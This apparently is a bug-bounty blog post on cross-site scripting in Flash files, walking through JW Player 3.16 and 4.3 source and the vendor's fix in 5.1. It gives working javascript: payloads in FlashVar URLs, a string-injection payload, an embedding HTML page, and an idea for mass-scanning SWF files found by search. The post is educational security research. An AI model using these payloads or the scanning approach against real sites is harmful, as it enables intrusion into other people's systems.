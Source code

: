 ```yaml
---
layout: post
title: Fun with Flash
---
```


## Intro
In Frans Rosen’s [talk on bug bounties](https://www.youtube.com/watch?v=KDo68Laayh8), he recommends searching for flash files, since a lot of them are vulnerable.  This got me interested in reading up on Flash files.

## The Tools  
- https://www.owasp.org/index.php/Testing_for_Cross_site_flashing_(OWASP-DV-004)
- To decompile Flash into Actionscript, use [JPEXS](https://www.free-decompiler.com/flash/download/).
- Adobe also made an app called [SWF Investigator](http://labs.adobe.com/technologies/swfinvestigator/).  In one of the tabs, it lists out all the vulnerable functions in the file.

## What’s wrong with Flash?
There are a lot of unsafe functions in Actionscript:

```
loadVariables()
loadMovie()
getURL()
loadMovie()
loadMovieNum()
FScrollPane.loadScrollContent()
LoadVars.load 
LoadVars.send 
XML.load ( 'url' )
LoadVars.load ( 'url' ) 
Sound.loadSound( 'url' , isStreaming ); 
NetStream.play( 'url' );
flash.external.ExternalInterface.call(_root.callback)
HtmlText
```

The other issue is that you can add parameters (Flashvars) to the URL.  Combine these two issues and you can create reflected XSS attacks like this: https://mysite.com/player.swf?callback=javascript:alert(1).  

## Example: XSS in JW Player v3.16 and v4.3
I came across a copy of JW Player 3.16 and found an XSS vulnerability.  Version 5 also had a few XSS vulns, which you can read about [here](https://nealpoole.com/blog/2013/04/unpatched-reflected-xss-in-jw-player-5/) and [here](https://packetstormsecurity.com/files/113332/JW-Player-5.9-Cross-Site-Scripting-Content-Spoofing.html).  They weren’t interested in doing hotfixes for old versions, but they are fixed in the current JWPlayer 7.8.

### v3.16
Anyways, for v3.16, you can find the source code here:
https://github.com/psych0d0g/kplaylist-ng/tree/master/mediaplayer-3-16

In ```ConfigManager.as```, we find these lines:

```
    public function goTo(obj,itm) {
        getURL(obj.ref.config['aboutlnk'],'_blank');
    };
```
The ```aboutlnk``` is a FlashVar.  getURL is an unsafe function that will run javascript.  To get this to work you need to paste ```http://localhost/mediaplayer.swf?aboutlnk=javascript:alert(1)``` , right click to get the context menu, and then click the “About” option.  This works in Firefox v50.

### v4.3
I found a copy of [version v4.3](https://web.archive.org/web/20121226095419/http://developer.longtailvideo.com/trac/changeset/HEAD/tags/mediaplayer-4.3?old_path=%2F&format=zip) in the Internet Archive.  The vulnerability is still there.  

In ```Rightclick.as```:

```
	/** jump to the about page. **/
	private function aboutSetter(evt:ContextMenuEvent):void {
		navigateToURL(new URLRequest(view.config['aboutlink']),'_blank');
	};
```

In v4.3, they rewrote it in ActionScript 3.  So they use ```navigateToURL``` instead of ```getURL```, but it's still not a safe function to pass FlashVars to.  The FlashVar variable name also changed from ```aboutlnk``` to ```actionlink```.

This URL works in Firefox v50:```http://localhost/mediaplayer.swf?aboutlink=javascript:alert(1)```

### v5.1

Out of curiousity, I checked [v5.1](https://web.archive.org/web/20110923000742/http://developer.longtailvideo.com/trac/changeset/1965/tags/mediaplayer-5.1.910?old_path=%2F&format=zip) and they finally fixed it by hardcoding the value.  

In ```Rightclick.as```:

```
/** jump to the about page. **/
		protected function aboutHandler(evt:ContextMenuEvent):void {
			navigateToURL(new URLRequest('http://www.longtailvideo.com/players/jw-flv-player'), '_blank');
		}
```

I contacted them about this, and asked if they were going to issue a patch or send out a bulletin.  They replied they didn't support old versions.


## Almost, but not quite
In this code, from ```CallbackView.as```, we see another example of how we can use FlashVars to make the Flash file run javascript:

```
/** sending the current file,title,id,state,timestamp to callback **/
    private function sendVars(stt:String,dur:Number,cpl:Boolean) {
        clearInterval(playSentInt);
        if(config['callback'] == "urchin" || config['callback'] == "analytics") {
            var fil = feeder.feed[currentItem]["file"];
            var fcn = "javascript:pageTracker._trackPageview";
            if(config['callback'] == "urchin") {
                fcn = "javascript:urchinTracker";
            }
            if(fil.indexOf('http') != undefined) {
                fil = fil.substring(fil.indexOf('/',7)+1);
            }
            if(stt == "start") {
                getURL(fcn+"('/start_stream/"+fil+"');");
            } else if (stt == "stop" && cpl == true) {
                getURL(fcn+"('/end_stream/"+fil+"');");
            }
        } else {
            varsObject.file = feeder.feed[currentItem]["file"];
            varsObject.title = feeder.feed[currentItem]["title"];
            varsObject.id = feeder.feed[currentItem]["id"];
            varsObject.state = stt;
            varsObject.duration = dur;
            varsObject.sendAndLoad(config["callback"],varsObject,"POST");
        }
    };
```

Using the “callback” and “file” FlashVars, we can get the line 

```
getURL(fcn+"('/end_stream/"+fil+"');");
``` 
to execute.  


If we use ?file=video.flv&callback=urchin, it would fire off 
```
javascript:urchinTracker(‘end_stream/video.flv’);
```
but that would be pretty boring.  


By changing the “file” parameter, however, we can get it to execute custom Javascript.  

Example: 
```
file=video');alert(1);void('.flv. 
```

This would cause the browser to execute 
```
javascript:urchinTracker(‘end_stream/video’);alert(1):void(‘.flv’);
```

Unfortunately, this can’t be used for a reflected XSS attack, since the function “urchinTracker” isn’t there if you just pull up the swf file url.  The only way to exploit this would be if a page embedded the the file and also let you specify the flashvars in the url.

As an example, try putting the following in a webpage.  It will automatically play, stop, and pop an alert box.  It works in Firefox, Chrome, and Safari.

```html
function urchinTracker(){
}
 <object style="height:360px;width:640px;" data="mediaplayer.swf" type="application/x-shockwave-flash" allowscriptaccess="always" flashvars="file=video');alert(1);void('.flv&enablejs=true&callback=urchin&autostart=true" id="jstest" ></object> 
```

## Automate it
As with many things in security, finding these files and exploiting them can be tedious if you have to do it manually.  A better approach would be to write a script to scrape Google for the Flash files, download them, decompile them, and grep the unsafe function names.
